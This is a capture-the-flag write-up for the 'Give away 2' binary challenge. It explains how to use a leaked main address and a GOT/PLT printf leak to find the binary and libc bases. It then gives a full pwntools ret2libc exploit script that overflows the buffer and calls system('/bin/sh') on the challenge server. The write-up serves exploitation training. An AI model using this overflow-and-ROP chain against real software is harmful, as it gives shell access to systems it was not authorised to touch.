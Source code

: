 # Give away 2

We again get their libc version. It gives us a leak, but this time it begins with `0x56`, so likely something in the binary. If we step through in a debugger again, we find the  program actually gives us the address of main. This lets us calculate the binary base.

We're going to need to use the libc somehow, so we can use the PLT and the GOT to leak a libc address.

Because the GOT is inside of the binary itself and is a table of libc addresses, if we can read the GOT we can read a libc address.

Meanwhile, the PLT is also inside of the binary. The PLT has a bunch of stubs, allowing us to call a libc function without it's address.

printf is called before we input. So it's GOT entry will contain it's libc address.

Thus, we can call printf on printf in got to leak printf's address, subtract appropriately to get the libc base, and then do what we did last time. in 64-bit, arguments are in rdi, then rsi, then rdx, etc. We need a pop rdi gadget in order to call `system("/bin/sh")`. The gadget would essentially be a piece of code within the binary that does `"pop rdi ; ret"`, popping the next value off the stack into rdi and then returning to the next return address.

So our exploit must:
* Use address of main to get binary base and address of gadgets and GOT and PLT
* call printf on printf in got to leak it's address (and call vuln afterwards so we get another input)
* Use this to calculate libc base and address of other things we want
* On second input, do `padding + pop rdi + address of /bin/sh + address of system`
```python
from pwn import *
import re
NUM_TO_RET = 0x20 + 8
padding = b'A' * NUM_TO_RET
poprdi = 0x0000000000000903 # pop rdi ; ret
e = ELF("./give2")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6" if sys.argv[1] == "local" else "libc-2.27.so")
p = e.process() if sys.argv[1] == "local" else remote('sharkyctf.xyz', 20335)
output = p.recvline().decode()
main = int(re.findall("Give away: (.*)", output)[0], 16)
base = main - e.symbols['main']
e.address = base
log.info(f"Main: {hex(main)}")
log.info(f"Binary base: {hex(e.address)}")
poprdi += base
leak = flat(padding, poprdi, e.got['printf'], e.plt['printf'], e.symbols['vuln'], word_size=64)
pause()
#p.sendline(padding + p64(main))
p.sendline(padding + p64(e.symbols['vuln']))
#p.recvline()
p.sendline(leak)
#output = p.recvuntil("G")[:-1]
output = p.recv()
#p.recvline()
output += b'\x00' * (8 - len(output))
printf = u64(output)
libcbase = printf - libc.symbols['printf']
log.info(f"Printf: {hex(printf)}")
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
payload = flat(padding, poprdi, next(libc.search(b"/bin/sh\x00")), libc.symbols['system'], word_size=64)
p.sendline(payload)
p.interactive()
```
